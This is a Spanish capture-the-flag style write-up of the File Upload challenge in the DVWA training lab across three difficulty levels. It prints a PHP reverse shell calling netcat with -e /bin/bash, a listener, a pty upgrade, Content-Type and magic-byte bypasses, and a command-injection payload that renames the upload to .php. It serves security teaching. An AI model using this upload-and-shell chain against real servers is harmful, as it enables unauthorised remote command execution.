 # FU

Las vulnerabilidades de subida de archivos se producen cuando un servidor web permite a los usuarios subir archivos a su sistema de archivos sin validar suficientemente aspectos como su nombre, tipo, contenido o tamaño.

## Bajo

Para realizar este nivel, primero debemos acceder a la página de subida de archivos, para ello accedemos a la página principal de DVWA y pulsamos en `File Upload`. Una vez en la página de subida de archivos, podemos intentar subir una reverse shell.

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

Una vez subida la shell, podemos comprobar como se ha subido correctamente.

![fichero subido](/FU/assets/upload.png)

A continuación, buscamos donde se ha subido el archivo  que según nos indica la respuesta del servidor es en la ruta `http://localhost/DVWA/hackable/uploads/`.

![directorio de ficheros subidos](/FU/assets/directory-low.png)

Ahora, podemos crear una escucha en el puerto 4000 para recibir la conexión de la reverse shell y  a continuación accedemos a la URL de la shell que hemos subido para ejecutarla.

```bash
nc -lvnp 4000
```

Una vez se establece la conexión, podemos comprobar que tenemos acceso al sistema.
Si se desea, se puede hacer un upgrade a una shell interactiva con el comando: 

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

En la siguiente imagen podemos observar como hemos obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![ejecución de comandos en una shell remota](/FU/assets/challenge-1.png)

## Medio

Al contrario que en el nivel bajo, en este nivel el servidor web solo permite subir archivos de tipo `jpeg` o `png`, por lo que no podemos replicar la mecánica del nivel anterior.

![error](/FU/assets/error-mid.png)

Para poder subir la shell, debemos cambiar el tipo de archivo a `jpeg` o `png` y para ello podemos utilizar Burp Suite para interceptar la petición y modificar la cabecera `Content-Type` de la petición para que sea `image/jpeg` o `image/png`.

![intercept](/FU/assets/intercept.png)

 Una vez interceptada la petición y modificada la cabecera, podemos enviar la petición y comprobar que se ha subido correctamente.

![fichero subido](/FU/assets/upload.png)

Al igual que en el nivel anterior, podemos observar como se ha obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![challenge-1](/FU/assets/challenge-1.png)

## Alto

En este nivel, el servidor web solo permite subir archivos de tipo `jpeg` o `png` con la diferencia de que esta vez el servidor comprueba los primeros bytes del archivo para comprobar que el tipo de archivo es correcto.

Para poder evadir esta comprobación, podemos utilizar la técnica de `file signature` para cambiar los primeros bytes del archivo y que el servidor web lo reconozca como un archivo de tipo `jpeg` o `png` se ha escrito `GIF98` al comienzo de nuestra reverse shell.

```php
GIF98
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

En la siguiente imagen podemos observar el contenido de nuestro fichero `shell.png` en un editor hexadecimal (`hexeditor`).

![hexeditor](/FU/assets/hexeditor.png)

Una vez modificado el archivo, podemos subirlo al servidor web y comprobar que se ha subido correctamente.

![fichero imagen subido](/FU/assets/upload-high.png)

Una vez subida, intentamos acceder a la shell mediante la uri que nos proporciona el servidor web y comprobamos que nos da un error como era de esperar.

![error al acceder al recurso](/FU/assets/error-high.png)

Para lograr nuestro objetivo podemos intentar combinarlo con otra vulnerabilidad como es la `Command Injection` para poder acceder a la shell que hemos subido.

Para ello, podemos utilizar la siguiente payload desde la sección de `Command Injection` de DVWA.

```bash
|mv ../../hackable/uploads/shell.png ../../hackable/uploads/shell.php
```

Una vez ejecutado el payload, podemos acceder a la shell mediante la uri que nos proporciona el servidor web y comprobar que tenemos acceso al sistema.

![challenge](/FU/assets/challenge-2.png)